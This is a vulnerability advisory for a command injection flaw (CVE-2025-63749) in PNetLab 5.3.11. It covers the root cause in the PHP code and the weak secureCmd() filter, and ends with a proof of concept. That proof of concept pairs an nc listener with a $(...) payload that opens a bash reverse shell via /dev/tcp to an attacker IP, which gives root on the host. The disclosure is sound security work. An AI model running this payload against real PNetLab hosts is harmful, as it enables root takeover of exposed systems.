







# PNetLab `qemu_options` Command Injection Vulnerability

> Author: GouYuhao

> Date: 2025-10-13

> CVE-2025-63749

---

## 1. Vulnerability Overview

- **Target product:** PNetLab 5.3.11 (UNetLab-based network lab platform)  
- **Impact:** Any authenticated user with lab edit permission can inject arbitrary commands that execute with **root** privileges on the host whenever a QEMU node is started.  
- **Root cause:** The backend applies no effective filtering to the `qemu_options` parameter. The value is concatenated into a shell command and executed via `exec()`, while `secureCmd()` fails to block command substitution such as `$(...)`.  
- **Requirements:** Possession of lab edit rights (typically lab creators or administrators). No additional local access is required.  
- **Severity:** Critical. The attacker can gain a root shell on the host. FOFA reports tens of thousands of exposed PNetLab instances, making this broadly exploitable.

---

## 2. Environment

| Item | Details |
| --- | --- |
| Affected version |  5.3.11 |
| Key directories | `/opt/unetlab/html`, `/opt/unetlab/tmp`, `/opt/unetlab/data/Logs` |
| Required privilege | Authenticated user with lab edit permission |
| Relevant logs | `unl_wrapper.txt`, per-node `wrapper.txt` under the lab runtime path |

---

## 3. Root Cause Analysis

1. **User-controlled assignment** (`/opt/unetlab/html/devices/qemu/device_qemu.php:129-132`):

   ```php
   if ((isset($p['qemu_options']))) {
       $this->qemu_options = (string) $p['qemu_options'];
   }
   ```

2. **Command concatenation** (`device_qemu::command()`):
   ```php
   $flags .= ' ' . $qoptions;
   $cmd = $bin . $flags . ' > ' . $this->getRunningPath() . '/wrapper.txt';
   ```

3. **Execution entry point** (`/opt/unetlab/html/devices/device.php:693-703`):

   ```php
   $cmd = $this->command();
   $cmd = secureCmd($cmd) . " 2>&1 &";
   exec($cmd, $o, $rcp);
   ```

4. **Insufficient filtering** (`/opt/unetlab/html/includes/functions.php:1928-1934`):

   ```php
   function secureCmd($cmd){
   	$re = '/[#;|&]|\.{2,}/m';
   	if(preg_match($re, $cmd, $matches)){
   		print_r($matches);
   		throw new Exception("The command contains dangerous characters [" . join(" ", $matches) . "]");
   	}
   	return $cmd;
	}
   ```

   `secureCmd()` only blocks `#`, `;`, `|`, `&`, and `..`. It does not cover command substitution, backticks, environment variables, or other dangerous patterns.

Because the node startup routine runs as root, any injected command executes with root privileges.

---

## 4. Proof of Concept

### 4.1 Start a reverse shell listener

On the attacker machine (example IP `192.168.10.7`), run:

```bash
nc -lvnp 8888
```



Keep the terminal running and wait for the callback.

### 4.2 Create a lab

Log in and create a new lab.





### 4.3 Inject a malicious `qemu_options`

After the lab is created, enter the lab and add a QEMU node (Linux in this example):





Inject the payload into `qemu_options`:

```
$(/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.7/8888 0>&1')
```



### 4.4 Trigger execution

Start or reboot the node from the console.



The listener receives a connection and you obtain a root shell on the host:


The exploit is successful.

## 5. Appendix

- Key files:
  - `/opt/unetlab/html/devices/qemu/device_qemu.php`
  - `/opt/unetlab/html/devices/device.php`
  - `/opt/unetlab/html/includes/functions.php`
  - Logs: `/opt/unetlab/data/Logs/unl_wrapper.txt`, `/opt/unetlab/tmp/<lab>/<node>/wrapper.txt`

---

> **Note:** Always validate and test within authorized scopes only. Do not exploit or damage publicly accessible systems without explicit permission.
